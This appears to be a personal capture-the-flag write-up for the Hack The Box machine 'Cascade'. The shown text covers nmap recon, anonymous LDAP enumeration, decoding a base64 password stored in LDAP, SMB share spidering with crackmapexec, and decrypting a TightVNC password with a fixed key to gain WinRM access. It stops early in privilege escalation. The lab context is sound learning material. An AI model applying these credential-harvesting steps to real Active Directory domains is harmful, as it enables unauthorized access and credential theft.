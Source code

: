 # Recon
```
└─$ nmap -sC -sV 10.10.10.182 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-09 08:38 EEST
Stats: 0:01:44 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.94% done; ETC: 08:39 (0:00:00 remaining)
Nmap scan report for 10.10.10.182
Host is up (0.14s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-08-09 04:38:37Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  unknown
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.25 seconds                                                     
```
- OS as Windows Server 2008 SP1, which is old and no longer supported
- WinRM (TCP 5985) open
- now we check smb with crackmapexec smbmap and smbclient
- no luck wit smb no workgroup available
- we check rpc and it allows anonymous access
```
─$ rpcclient -U "" -N 10.10.10.182
rpcclient $> 
```
- run querydispinfo but no creds in the description
- i listed domainusers and groups and gone to check ldap first get the namin context
```
$ ldapsearch -H ldap://10.10.10.182 -x -s base namingcontexts
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingContexts: DC=cascade,DC=local
namingContexts: CN=Configuration,DC=cascade,DC=local
namingContexts: CN=Schema,CN=Configuration,DC=cascade,DC=local
namingContexts: DC=DomainDnsZones,DC=cascade,DC=local
namingContexts: DC=ForestDnsZones,DC=cascade,DC=local

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
                                                        
```
- dump all to a file and get just the people
```
ldapsearch -H ldap://10.10.10.182 -x -b "DC=cascade,DC=local" > ldap-anonymous
ldapsearch -H ldap://10.10.10.182 -x -b "DC=cascade,DC=local" '(objectClass=person)' > ldap-people
```
- after searching for any intersting info user ryan had different row at the end of ldap search
```
cascadeLegacyPwd: clk0bjVldmE=
```
- i guess its a password and it has = at its end so maybe its base64 so decode it
```
echo clk0bjVldmE= | base64 -d
rY4n5eva  
```
- now try crackmapexec at winrm and smb
  i stuck with how the user is spelled i tryed ryan didnt work Ryan Thompson also didnt work so i go back to rpc for the users and the user is r.thompson
- winrm showe no response but smb did
```
crackmapexec smb 10.10.10.182 -u r.thompson -p rY4n5eva --shares
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
SMB         10.10.10.182    445    CASC-DC1         [+] Enumerated shares
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$                          
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ            
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share 

```
- smbmap shows the same
```
crackmapexec smb 10.10.10.182 -u r.thompson -p rY4n5eva -M spider_plus
```
- the command above crawls everyshare we has access to and gives json output
```
jq .[] 10.10.10.182.json
```
- to view file in coloring
- i see this file "IT/Temp/s.smith/VNC Install.reg" which sound intersting because we are in ryan directory
- so lets first mount the files like ippsec did in the video
```
cd Desktop
mkdir mnt/data/
cd mnt/data/
sudo mount -t cifs -o 'user=r.thompson,password=rY4n5eva' //10.10.10.182/data .
```
- after waiting a minute we got the shares
- we can skip the moungting and just use thisafter connecting with smbclient
- ```
  smbclient --user r.thompson //10.10.10.182/data rY4n5eva
  ```
```
mask ""
recurse ON
prompt OFF
mget *
```
- after downloading the files we just
```
find smb-data-loot/ -type f
```
- nice list of the files
- Meeting_Notes_June_2018.html presents like an email after reading it we need to keep an eye out for the admin account password and TempAdmin.
- file "IT/Temp/s.smith/VNC Install.reg" after reading it we found a password in hex but after cracking it no password was given so we search for tightvnc password decrypt and found a way using msfconsole
```
msf6 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

irb: warn: can't alias jobs from irb_jobs.
>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
=> "\x17Rk\x06#NX\a"
>> require 'rex/proto/rfb'
=> true
>> Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey
=> "sT333ve2"
>> 
                
```
- we have password with user s.smith since it is his directory now we can try winrm  and we got a shell and user flag on desktop
# Priv Esc 
- run whoami /all to see what we have access to
- i see audit group but also run
```
*Evil-WinRM* PS C:\Users\s.smith\desktop> net user s.smith
User name                    s.smith
Full Name                    Steve Smith
Comment
User's comment
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/28/2020 8:58:05 PM
Password expires             Never
Password changeable          1/28/2020 8:58:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script                 MapAuditDrive.vbs
User profile
Home directory
Last logon                   1/29/2020 12:26:39 AM

Logon hours allowed          All

Local Group Memberships      *Audit Share          *IT
                             *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```
- we see audit share and it groups
```
*Evil-WinRM* PS C:\Users\s.smith\desktop> net localgroup "Audit Share"
Alias name     Audit Share
Comment        \\Casc-DC1\Audit$

Members

-------------------------------------------------------------------------------
s.smith
The command completed successfully.

```
- there is a comment
- we can use crackmapexec with spiderplus like above to enumrate all shares as ippsec did
- There’s a c:\shares\, but I don’t have permissions to list the directories in it we can go into Audit based on the share name in the comment
- copy all the files to my local VM
```
sudo mount -t cifs -o 'user=s.smith,password=sT333ve2' //10.10.10.182/audit$ .
```
